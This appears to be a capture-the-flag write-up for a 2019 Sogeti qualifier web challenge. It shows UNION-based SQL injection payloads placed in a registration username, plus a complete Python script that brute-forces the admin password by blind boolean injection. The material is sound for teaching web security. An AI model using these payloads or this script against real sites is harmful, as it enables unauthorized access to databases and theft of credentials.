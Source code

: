 ```yaml
---
title: "NoteBad.exe"
subtitle: "Challenge tiré du CTF de qualification pour le Cyberescape de Sogeti"
author: "zTeeed"
ctf: "SogetiQuals"
annee: "2019"
team: "HackademINT"
---
```


## [](#presentation)Presentation

The website allows a registered user to create notes. By creating a few test acounts, we realised that the service is actually linking notes to usernames instead of a hidden user ID. This means that we can acess other users' notes by creating new accounts with the same username. We guessed that the flag could be found in the notes of the user "admin". However, there is some sort of validation in the backend that forbids the creation of an account named "admin".

Since the service associates notes to a username, that would mean that the server is actually fetching the notes with the following request:

```php
$query = "SELECT note from notes where username=$username;";
```

That would mean that the username parameter is injectable. Lets try some payloads.

<img src="/writeup-scripts/2018-2019/Sogeti/NoteBad/01_add_note_example.png">

## [](#method-1)Method 1: Using the browser

To keep the writeup short, I'll only show the usernamed I registered the account with and the resulting notes found when connecting to the service.

```text
hackademint' union select database()#
```

<img src="/writeup-scripts/2018-2019/Sogeti/NoteBad/04_result_database.png">

```text
hackademint' union select table_name from information_schema.tables#
```

<img src="/writeup-scripts/2018-2019/Sogeti/NoteBad/05_result_tables.png">

```text
hackademint' union select column_name from information_schema.columns#
```

<img src="/writeup-scripts/2018-2019/Sogeti/NoteBad/06_result_columns.png">

```text
hackademint' union select password from user limit 1#
```
<img src="/writeup-scripts/2018-2019/Sogeti/NoteBad/07_result_password.png">

## [](#method-2)Method 2: Using an overkill python script

This is a typicall script that enable bruteforcing a column value based on a
boolean sql injection:

```python
#!/usr/bin/python3

import re, requests, time
from pwn import *


def connect(s, username, password):
    params = dict(username=username, password=password)
    url = 'http://quals.shadow-league.org:8001/register.php'
    s.get(url, params=params)
    url = 'http://quals.shadow-league.org:8001/index.php'
    return s.get(url, params=params)


def parse(content):
    pattern = b'<p class=\'note\'>(.*?)</p>'
    return re.findall(pattern, content)


def forge_payloads(val, flag):
    payload = ('admin\' or ((select ASCII(substr(password, {}, 1)) '
    'from user limit 1){}"{}")#')
    payload1 = payload.format(1+len(flag), '=', val)
    payload2 = payload.format(1+len(flag), '>', val)
    return payload1, payload2


def get_notes(payload, s, p):
    r = connect(s, payload, 'password')
    p.status(payload)
    notes = parse(r.content)
    return notes


def get_char_dichotomie(flag, s, p, p2):
    (a, b) = (33, 126)
    while a<=b:
        val = (a+b) // 2
        p.status('{}{}'.format(flag, chr(val)))

        payload1, payload2 = forge_payloads(val, flag)
        notes = get_notes(payload1, s, p2)
        if len(notes) > 1000:
            return chr(val)

        notes = get_notes(payload2, s, p2)
        if len(notes) > 1000:
            a = val + 1
        else:
            b = val - 1


def bruteforce(flag, s, p, p2):
    char = get_char_dichotomie(flag, s, p, p2)
    if char is None:
        return flag, None
    if char == '}':
        return flag + char, True
    return flag + char, False


def main():
    s = requests.session()
    flag = ''
    is_end = False
    with log.progress('flag') as p:
        with log.progress('payload') as p2:
            while is_end != True:
                flag, is_end = bruteforce(flag, s, p, p2)
                if is_end is not None:
                    continue
                p.failure(flag)
                return flag
            p.success(flag)
    return flag


def display_time(delay):
    m, s = divmod(delay, 60)
    m, s = int(m), int(s)
    if m != 0:
        return '{:02d} minutes {:02d} seconds'.format(m, s)
    return '{:02d} seconds'.format(s)


if __name__ == '__main__':
    start = time.time()
    main()
    disp = display_time(time.time()-start)
    print('[*] Solving time: {}'.format(disp))

```
